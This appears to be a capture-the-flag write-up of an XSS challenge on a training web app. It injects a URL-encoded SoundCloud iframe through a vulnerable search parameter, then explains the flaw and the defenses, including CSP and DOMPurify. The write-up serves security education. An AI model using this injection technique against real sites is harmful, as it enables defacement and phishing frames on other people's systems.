



# Bonus Payload

## Why this challenge?

The goal of this challenge is to perform a Cross-Site Scripting (XSS) attack using a specific, complex payload: an iframe that embeds a SoundCloud player. This demonstrates that XSS is not just about popping alert boxes; it can be used to inject rich media, phishing forms, or third-party content into a vulnerable site.

## How did I analyze?

- **Observation**: Following the previous "DOM XSS" challenge, I knew the search function `/search?q=` was vulnerable to XSS and allowed iframe tags.
  
- **Target**: The challenge explicitly asks to use a provided payload (a SoundCloud player embed code) instead of a simple script.

- **Hypothesis**: Since the application filters are weak (allowing iframe), injecting a larger, more complex HTML structure should work as long as it is properly encoded to survive the URL transmission.

## What did I do?

### Step 1

I obtained the required payload ( found in the challenge description).
Payload:

```html
<iframe
  width="100%"
  height="166"
  scrolling="no"
  frameborder="no"
  allow="autoplay"
  src="[https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true](https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true)"
></iframe>
```

### Step 2

I URL-encoded the entire payload to ensure special characters ` <, >, ", %` did not break the URL structure when passed as a query parameter.

### Step 3

I injected the encoded payload into the search bar via the URL.
Full Injection URL:

```url
http://IP:PORT/#/search?q=%3Ciframe%20width%3D%22100%25%22%20height%3D%22166%22%20scrolling%3D%22no%22%20frameborder%3D%22no%22%20allow%3D%22autoplay%22%20src%3D%22https:%2F%2Fw.soundcloud.com%2Fplayer%2F%3Furl%3Dhttps%253A%2F%2Fapi.soundcloud.com%2Ftracks%2F771984076%26color%3D%2523ff5500%26auto_play%3Dtrue%26hide_related%3Dfalse%26show_comments%3Dtrue%26show_user%3Dtrue%26show_reposts%3Dfalse%26show_teaser%3Dtrue%22%3E%3C%2Fiframe%3E
```

### Step 4

- I navigated to the link. The application rendered the HTML, and the SoundCloud player appeared on the page.
  

## Complete challenge!



## Why is it vulnerable?

- Lack of Sanitization: The application accepts and renders complex HTML tags from the user input without stripping them out.

- Trusting User Input: The search function assumes the input is just text, but the browser interprets it as executable HTML code.

## How to prevent it?

- Content Security Policy (CSP): A strict CSP could prevent this attack by blocking iframe sources that are not explicitly whitelisted (e.g., frame-src 'self';). This would stop the SoundCloud player from loading even if the HTML injection succeeded.

- Input Sanitization: As with other XSS vulnerabilities, using a library like DOMPurify to strip HTML tags from search inputs is the primary defense.

## What did I learn?

- XSS Impact: XSS is versatile. It's not just for stealing cookies; it can be used to deface a website, play unwanted audio, or embed phishing frames.

- Complex Payloads: Sometimes a simple <script> doesn't demonstrate the full impact. Injecting a full UI component (like a music player) shows how much control an attacker can take over the page layout.
